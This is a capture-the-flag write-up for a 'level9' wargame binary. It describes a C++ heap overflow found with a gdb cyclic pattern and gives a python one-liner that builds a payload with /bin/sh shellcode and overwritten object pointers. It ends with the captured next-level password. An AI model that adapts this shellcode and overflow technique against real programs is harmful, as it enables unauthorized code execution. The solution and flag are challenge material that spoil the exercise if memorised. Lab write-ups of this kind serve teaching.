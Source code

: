 # Level9
```bash
su level9 #c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Steps

No calls to `/bin/sh` and no direct access to `.pass`, we can assume we will have to use **shellcode** this time.	
`operator new` is called twice. This will allocate memory for an object.		
The program takes a single argument, that is placed into the first object instance with `strlen()` and `memcpy()`.	
A `call` later in the program uses the address stored at the start of the second object instance as parameter.		

*Lets try and see if we can overflow on the heap using the `strcpy()`.*

```bash
gdb level9
r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```

The **segfault** occurs after 108 characters, and occurs because the program interprets the begining of the second object instance as a pointer to executable code.     
To spawn a shell we will have to include pointers that redirect to our shellcode so that the instructions before the `call` do not crash.

```bash
python -c "print '\x08\x04\xa0\x10'[::-1] + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 83 * 'A' + '\x08\x04\xa0\x0c'[::-1]" > /tmp/inj9

cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
